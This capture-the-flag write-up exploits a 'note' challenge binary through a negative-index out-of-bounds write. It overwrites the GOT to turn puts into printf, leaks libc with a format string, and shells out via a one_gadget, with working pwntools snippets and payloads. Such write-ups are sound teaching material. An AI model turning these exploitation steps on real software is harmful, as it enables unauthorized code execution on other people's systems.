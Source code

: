# Note

We were given [this binary](./Sources/note) and theses files to run it :

 - [Dockerfile](./Sources/Dockerfile)
 - [docker-compose.yml](./Sources/docker-compose.yml)
 - [docker-entrypoint.sh](./Sources/docker-entrypoint.sh)

First things first, we can just run this container and get it's [libc](./Sources/libc.so.6) and [ld](./Sources/ld-linux-x86-64.so.2). After running `pwninit` we get our [patched binary](./Sources/note_patched) using the same libraries as the server.

We can also see that most of the securities are enabled on that binary :

```console
$ checksec --file=./note
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/note/note'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

With this out of the way, let's check out what the program does :

![note](./Images/note.png)

We can add notes, view their contents, and exit. Looking at the pseudo C we get with Ghidra, we can see that these notes are written on the bss in this function :

```C
void add(void)
{
  long in_FS_OFFSET;
  uint user_choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  getn(&user_choice);
  if (0x10 < (int)user_choice) {
     call_exit(1);
  }
  printf("value: ");
  read(0,notes + (long)(int)user_choice * 0x10,0xf);
  printf("note added on %d successfully!\n",(ulong)user_choice);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
     __stack_chk_fail();
  }
  return;
}
```

`getn()` is only using `scanf` to get an integer, and since there's no check on wheter `user_choice` is negative, there is an interger underflow in this line :

```C
if (0x10 < (int)user_choice) {
```

This gives us an arbitrary write with this `read()` call:

```C
read(0,notes + (long)(int)user_choice * 0x10,0xf);
```

For example if I create a note with index `-10`, I'll be writing at address `notes - 160` as we can see with GDB:

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: -10
value: 
```

![underflow example](./Images/underflow_example.png)

Since the binary has Partial RELRO, the got is writable, this vulnerability immediatly SCREAMS got overwrite. If you don't know what the fuck I'm talking about, [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got) might help you out.

Our problem being, pie and aslr are activated. So if we want to overwrite the got with a one gadget we first need a leak to calculate it's address. I didn't find another vulnerability to get a leak, so at first I thought about bruteforcing which sadly couldn't work. Since I can overwrite the got, maybe if I overwrite some other function's got with `puts` it might leak me something. It didn't 🗿

At that point, not seeing any other options I chose to stop in shame and go do some reverse.

![shame](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTFiajR5em8wbjJpZG8xMWRzNHFyZXQzcHU0OGZwczRjdzA3bm5meCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/vX9WcCiWwUF7G/giphy.gif)

But later on, reinvigorated by a quick flag, I decided to take another look at it. And this time I thought : I tried to overwrite other functions with `puts`, but what about `printf` ? And I saw this line in `view()` (the function letting us view the note's content) :

```C
puts(notes + (ulong)index * 0x10);
```

We can write whatever we want over `notes`, so if `puts` actually calls `printf` this gets us a format string.

![revelation](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjB6N3FxMDM0NWp5b3BtMWI2NDByYzdramFkaHE0ZTloaDg1dGFlNiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26ufdipQqU2lhNA4g/giphy.gif)

First thing first, let's check wheter it's feasable using GDB :

![got overwrite](./Images/got_plt_values.png)

Since `puts`'s address isn't resolved until we call it in `view()`, it doesn't point to the libc yet. And as we can see above, we only have to overwrite the least significant byte to `0xf0` to make it point to `printf`'s plt. Let's make it happen with a script :

```python
def add(index:bytes, value:bytes):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    p.recvuntil(b"value: ")
    p.send(value)
    p.recvuntil(b">")

def view(index:bytes):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    data = p.recvuntil(b"===").replace(b"===", b"").strip()
    p.recvuntil(b">")
    return data
```

First we can code these functions to interact with the program , and now we can overwite `puts`'s got quite simply this way :

```python
add(b"-10", b"\xf0")
```

We know it's `-10` simply by debugging and calculating the offset. For example, `0x55cb0f7f6000` being the address of `notes` and `0x55cb0f7f60a0` the address of `puts`'s got :

```python
>>> 0x55cb0f7f6000-0x55cb0f7f60a0
-160
>>> _/0x10
-10.0
```

As you can see, we now have a format string when viewing our notes :

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: 0
value: %17$p
note added on 0 successfully!
=== Menu ===
1. Add
2. View
0. Exit
> 2
idx: 0
0x7f95cfe2a1ca
```

By debugging we can find out that the payload `%17$p` leaks us the libc. So we can automate the leak this way :

```python
add(b"0", b"%17$p")
leak = view(b"0")
libc.address = int(leak, 16) - (libc.sym["__libc_start_call_main"] + 122)
```

Now, we need to find a one gadget which constraint's won't be an issue. Took me some time, but I found this one that could be executed during the `scanf` call in the `menu()` function :

```
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

And finally, we just have to overwrite `scanf`'s got with that one gadget:

```python
one_gadget = p64(libc.address + 0xef52b)
add(b"-7", b"A"*8+one_gadget[:7])
```

Putting it all together in [this script](./Sources/solve.py) we get the flag :

```console
$ ./solve.py -r 146.148.28.103 32866
$ cat flag.txt
HNx04{83b55ee77f37cac314fe45d1f45e33f4}
```
